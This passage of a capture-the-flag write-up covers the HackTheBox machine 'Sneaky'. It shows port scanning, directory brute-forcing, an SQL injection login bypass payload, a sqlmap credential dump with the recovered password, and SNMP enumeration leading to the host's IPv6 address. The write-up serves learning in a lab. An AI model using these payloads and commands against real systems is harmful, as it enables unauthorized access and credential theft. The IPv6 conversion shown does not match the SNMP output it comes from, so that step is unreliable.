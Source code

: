 # Sneaky

This is the write-up for the box Sneaky that got retired at the 11th November 2017.
My IP address was 10.10.14.19 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.20    sneaky.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sneaky.nmap 10.10.10.20
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
```

UDP port scan:
```markdown
nmap -sU -o nmap/sneaky_udp.nmap 10.10.10.20
```

```markdown
PORT    STATE SERVICE
161/udp open  snmp
```

## Checking HTTP (Port 80)

On the web page it says that _"This Page is Under Development"_ and nothing interesting in the source code.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.20 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds a _/dev_ folder and when browsing there we see a login page with the title _"Member's Area Only - Login Now!"_
When trying out default usernames and passwords, it outputs _"Not Found"_ and by trying out special characters, it outputs _"Internal Server Error"_.
So there is some kind of **SQL injection** flaw to abuse.
```markdown
name=admin&pass=' OR '1'='1
```

Sending this to the server logs us in and we are greeted with two names and the content of a RSA key file:
- name: admin
- name: thrasivoulos

As we can't use that RSA key yet, lets test the SQL Injection with **Sqlmap**:
```markdown
sqlmap -r sneaky.req -p pass --dbms mysql --level 4 --risk 3 --dump
```

It outputs the passwords of the users that are both the same:
> sup3rstr0ngp4ssf0r4d

There is no more attack surface here.

## Checking SNMP (Port 161)

As SNMP is listening on UDP, lets check the _public_ community string:
```markdown
snmpwalk -v2c -c public 10.10.10.20
```

Looking through the results, it outputs that IPv6 is activated which is not normal.
To filter for that community string with the IP addresses:
```markdown
snmpwalk -v2c -c public 10.10.10.20 1.3.6.1.2.1.4.34.1.3
```

```markdown
iso.3.6.1.2.1.4.34.1.3.1.4.10.10.10.20 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.1.4.10.10.10.255 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.1.4.127.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.34.1.3.2.16.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 1
iso.3.6.1.2.1.4.34.1.3.2.16.222.173.190.239.0.0.0.0.2.80.86.255.254.185.197.169 = INTEGER: 2
iso.3.6.1.2.1.4.34.1.3.2.16.254.128.0.0.0.0.0.0.2.80.86.255.254.185.197.169 = INTEGER: 2
```

The IPv6 address is written in decimal and needs to be converted in hexadecimal first.
To make this readable, we can install _snmp-mibs-downloader_, enable it and this will translate all the numbers into human readable strings.
```markdown
de:ad:be:ef:00:00:00:00:02:50:56:ff:fe:aa:41:46
```

This is how it looks as an IPv6 address:
```markdown
# Unique Local Address
dead:beef:0000:0000:0250:56ff:feaa:4146
```

This is a **Unique Local Address** but we need the **Link-Local Address** to connect to the box.
These start with _fe80_ and we put the rest of the IPv6 address at the end of it like this:
```markdown
# Link-Local Address
fe80:0000:0000:0000:0250:56ff:feaa:4146
```
